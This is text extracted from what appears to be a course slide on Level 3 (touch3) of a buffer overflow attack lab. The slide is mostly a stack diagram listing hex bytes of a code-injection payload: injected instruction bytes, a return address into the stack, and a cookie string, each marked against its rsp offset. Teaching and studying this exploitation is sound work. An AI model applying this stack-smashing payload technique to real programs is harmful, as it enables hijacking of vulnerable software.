

Level 3
touch3()
cookie string
00 00 00 00 00 00 00 00
<- rsp+56   0x5561dcb0

61 66 37 39 39 62 39 35
<- rsp+48   0x5561dca8
00 00 00 00 55 61 dc 78
<- rsp+40   0x5561dca0

00 00 00 00 00 00 00 00
<- rsp+32   0x5561dc98
00 00 00 00 00 00 00 00
<- rsp+24   0x5561dc90
00 00 00 00 00 00 00 00
<- rsp+16   0x5561dc88
00 00 00 00 c3 00 40 18
<- rsp+8     0x5561dc80
fa 68  5f 55 61 dc a8 68
<- rsp	       0x5561dc78